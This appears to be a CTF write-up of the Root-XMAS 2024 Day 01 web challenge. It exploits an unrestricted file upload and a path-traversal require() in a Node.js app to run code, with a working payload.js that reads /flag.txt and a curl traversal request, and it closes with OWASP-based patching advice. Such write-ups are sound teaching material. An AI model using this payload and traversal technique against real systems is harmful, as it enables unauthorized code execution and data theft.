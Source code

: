 ```yaml
---
title: Root-XMAS 2024 Day 01 - Generous Santa
feed: show
permalink: /RootXMAS_2024_01
date: 01-12-2024
summary: Let's upload our gift unto santa's list!
---
```

### summary


A small challenge to start the advent, about unrestricted file upload accessible with an Local File Inclusion leading to an RCE on Node JS 
### recon

Santa has modernized and provided a website where you can ask for gift! And I wish for an RCE, so let's add it!

We have a nice website where we can add gifts to our sack. 
Clicking on any item doesn't seem to do anything visually, but sends a request to the server.

![[rmxmas24d01giftlist.png|those are gifts I want!]]

If we want another gift, we can suggest one by sending a name and a picture of what we want.

![[rmxmas24d01giftupload.png|upload a file, what could go wrong?]]
The code of the site is provided, so let's check the good bytes, in the `hotte.js` :

The `/api/add` endpoint imports the js module of the user chosen gift,  calls its `store` and returns its output.

```js

router.post('/add', async (req, res) => {
    const { product } = req.body;

    try {
        const Gift = require(`../models/${product.toLowerCase()}`);
        const gift = new Gift({ name: product, description: `Description of ${product}` });
        output = gift.store();
        res.json({ success: true, output: output });
    } ...
});
```

we see that the `require` call allows any path. 

```js
require(`../models/${product.toLowerCase()}`);
```

No path sanitization, no `path.basename()` , we can import any file on the file system via a Path Traversal! Perfect, if only we had an unrestricted file upload...

That the `/api/suggest` provides!
We see on the source that it's a very simple method, that allows any file type and extension, and puts it on a `/tmp/DATE/` folder.

```js
router.post('/suggest', upload.single('photo'), (req, res) => {
    const { name } = req.body;
	...
    const now = new Date();
    const dateStr = now.toISOString().split('T')[0];
    const timeStr = `${now.getHours()}-${now.getMinutes()}-${now.getSeconds()}`;
    const tempDir = path.join('/tmp', `${dateStr}_${timeStr}`);
    ...
    const tempPath = path.join(tempDir, req.file.originalname);

    fs.writeFile(tempPath, req.file.buffer, (err) => {
	...
	res.json({ message: `Thank you! Santa will consider your suggestion.`, photoPath: tempPath });
    });
});
```

Thankfully for us we have the source, and the date is by the second, so we can guess the folder name by checking the upload date, do a sandwich attack, maybe we will have to guess the timezo... 
Wait, what do you mean "the server returns the file path in the response"?  🤦

```json
{
  "message": "Thank you! Santa will consider your suggestion.",
  "photoPath": "/tmp/2024-12-01_12-28-5/payload.js"
}
```

Well... that's easier!
So now we know the code imports a file, create a `Gift` object and calls its `store` method, so let's check how these are created, with the `models/PS5.js`:

```js
const mongoose = require('mongoose');

const ps5Schema = new mongoose.Schema({
    name: { type: String, default: 'PS5' },
    description: { type: String, default: 'The PlayStation 5, the latest video game console from Sony.' }
});

ps5Schema.methods.store = function() {
    console.log('PS5 stored in the sack.');
    return this;
};

module.exports = mongoose.model('PS5', ps5Schema);
```

All other gifts follow the same model. 
There is absolutely no reason right now to create customs modules for each gift, as the `store` method is the same for each one (except the hardcoded gift name, of course). It could have just been a JSON.

We also see in the `Dockerfile` that the flag is at the root of the filesystem.

```Dockerfile
COPY flag.txt /flag.txt
```

### solution

We could just upload a JS file that directly creates a reverse shell or sends a fetch request to our server.
But let's do things right, and create a custom model which will return the `/flag.txt` file.

`payload.js`
```js
const mongoose = require('/usr/app/node_modules/mongoose');
const fs = require('fs');

data = ""
try {
    data = fs.readFileSync('/flag.txt', 'utf8');
} catch (err) {
    console.error(err);
}

flagSchema = new mongoose.Schema();

flagSchema.methods.store = function () {
    return { "flag": data }
};

module.exports = mongoose.model('Flag', flagSchema);
```

We upload the file via the web interface and retrieve the `filePath` in the Firefox devtools requests history.
Then we request our poisoined gift in our sack: 

```bash
curl --insecure -X POST -H "Content-Type: application/json" -d \
'{"product":"../../../../../../../../../../tmp/2024-12-01_11-48-39/payload"}' \
https://day1.challenges.xmas.root-me.org/api/add
```

```json
{
  "success": true,
  "output": {
    "flag": "The flag is : \n\nRM{Mayb3_S4nt4_Cl4uS_Als0_G3t_A_Flag}"
  }
}
```

### issues 

Our module is a bit different than the provided model.
#### import error 

If we do
```js
const mongoose = require('mongoose');
```
We get
```json
{"message":
"Error adding the product ... Cannot find module 'mongoose'"
}
```

As we are importing files from a file in `/tmp`, it does not find the apps libraries. 
We need to use the absolute path of the lib which is in the `node_modules` directory of the app. 
We can find the path of our app in the `Dockerfile`

```Dockerfile
WORKDIR /usr/app
...
COPY ./src/ ./
```

#### useless  schema definition

When adding items to the "sack", the description of the item defined in its module is not used, it just returns an hardcoded string.

```js
const gift = new Gift({ name: product, description: `Description of ${product}` });
```

For example if we request a tesla we get:
```json
{
    "name": "tesla",
    "description": "Description of tesla",
    "_id": "674c561425dab95f390465af"
}
```
Instead of the real description of the tesla.
So no need to put the flag in the model description, as it will not be returned in this case.

### Blue team: patching the vulns

To prevent upload of scripts, the app should only accept valid images.
Owasp has a nice [File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html). To summarise:

- Do not use user provided filenames,  use a random string
	-  It prevents possible path traversals vulns and prevents attackers from guessing the file path and trying an LFI
- Do not return the file path to the user!!!
- Only allow specific files extensions (.png, .bmp)
- Check the type of your file on your server.
	- The `file` command on linux does this, as the node [file-type](https://www.npmjs.com/package/file-type) module.
- Launch a virus scan on your uploads, just to be sure, it still could be a polyglot file, or your server could be used as a malware redistribution platform. 

When dynamically importing modules:
- Don't do it. 
	- If you think you need it, you probably don't.
- Restrict the paths from which you are importing. (ex: your source dir)
- If using a user provided filename, sanitize it and prevent LFI with `path.basename()` to extract only the filename.
- Ideally, only allow files from a whitelist.